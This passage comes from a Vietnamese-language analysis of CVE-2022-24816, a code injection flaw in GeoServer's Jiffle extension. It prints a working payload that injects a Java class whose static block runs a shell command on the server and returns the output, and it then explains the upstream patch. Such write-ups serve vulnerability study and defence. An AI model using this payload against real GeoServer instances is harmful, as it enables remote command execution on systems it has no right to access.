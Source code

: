 Class Double cần được đưa vào payload có dạng như sau:

```
class Double {
	public static double NaN = 0;
		static {
    try {
      java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("ls -la").getInputStream()));
      String line = null;
      String allLines = " - ";
      while ((line = reader.readLine()) != null) {
        allLines += line + "\n";
      } throw new RuntimeException(allLines);
    } catch (java.io.IOException e) {}
  }
}
```

Payload:

```
<wps:LiteralData> 
	asdasd = 1; // */ class Double {    public static double NaN;  static { try {  java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("ls -la").getInputStream())); String line = null; String allLines = " - "; while ((line = reader.readLine()) != null) { allLines += line + "\n"; } throw new RuntimeException(allLines);} catch (java.io.IOException e) {} }} /*
</wps:LiteralData>
```

Code Java của class được tạo (khi đã inject malicious code) sẽ có dạng như sau:

![enter image description here](https://imgur.com/IFZHX0N.png)

Output của request chứa output của command được thực thi:

![enter image description here](https://imgur.com/AEjUzcd.png)

## 6. Vá lỗ hổng

Nhìn qua commit cb1d6565d38954676b0a366da4f965fef38da1cb với message "_Validate Jiffle input variable names according to grammar, escape Javadocs when including Jiffle sources in output_" của JAI-EXT trên github qua [link](https://github.com/geosolutions-it/jai-ext/commit/cb1d6565d38954676b0a366da4f965fef38da1cb#), dễ thấy lỗ hổng được vá bằng việc validate input bằng regex và escape ký tự `/` với HTML encode.

![enter image description here](https://www.synacktiv.com/sites/default/files/inline-images/patch_diff_0.png)

## 7. Nguồn tham khảo

https://www.synacktiv.com/publications/exploiting-cve-2022-24816-a-code-injection-in-the-jt-jiffle-extension-of-geoserver

https://nvd.nist.gov/vuln/detail/CVE-2022-24816
